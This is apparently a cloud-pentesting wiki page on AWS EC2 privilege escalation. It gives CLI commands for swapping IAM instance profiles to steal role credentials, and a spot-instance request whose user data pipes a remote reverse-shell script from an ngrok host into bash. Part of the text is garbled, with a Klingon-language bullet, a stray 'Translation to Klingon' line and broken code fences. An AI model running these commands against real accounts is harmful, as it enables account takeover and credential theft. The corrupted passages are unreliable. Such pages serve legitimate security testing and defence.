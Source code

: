With these permissions it's possible to change the instance profile associated to an instance so if the attack had already access to an instance he will be able to steal credentials for more instance profile roles changing the one associated with it.

* If it **has an instance profile**, you can **remove** the instance profile (`ec2:DisassociateIamInstanceProfile`) and **associate** it \*

{% code overflow="wrap" %}
```bash
aws ec2 describe-iam-instance-profile-associations --filters Name=instance-id,Values=i-0d36d47ba15d7b4da
aws ec2 disassociate-iam-instance-profile --association-id <value>
aws ec2 associate-iam-instance-profile --iam-instance-profile Name=<value> --instance-id <value>
```
{% endcode %}

* **ghItlh** **instance profile** **replace** **or** (`ec2:ReplaceIamInstanceProfileAssociation`). \*

{% code overflow="wrap" %}
````
```bash
```
aws ec2 replace-iam-instance-profile-association --iam-instance-profile Name=<value> --association-id <value>
```

Translation to Klingon:

```
aws ec2 replace-iam-instance-profile-association --iam-instance-profile Name=<value> --association-id <value>
```
```
````
{% endcode %}

**Potential Impact:** Direct privesc to a different EC2 role (you need to have compromised a AWS EC2 instance and some extra permission or specific instance profile status).

### `ec2:RequestSpotInstances`,`iam:PassRole`

An attacker with the permissions **`ec2:RequestSpotInstances`and`iam:PassRole`** can **request** a **Spot Instance** with an **EC2 Role attached** and a **rev shell** in the **user data**.\
Once the instance is run, he can **steal the IAM role**.

{% code overflow="wrap" %}
```bash
REV=$(printf '#!/bin/bash
curl https://reverse-shell.sh/2.tcp.ngrok.io:14510 | bash
' | base64)

aws ec2 request-spot-instances \
--instance-count 1 \
--launch-specification "{\"IamInstanceProfile\":{\"Name\":\"EC2-CloudWatch-Agent-Role\"}, \"InstanceType\": \"t2.micro\", \"UserData\":\"$REV\", \"ImageId\": \"ami-0c1bc246476a5572b\"}"
```
{% endcode %}
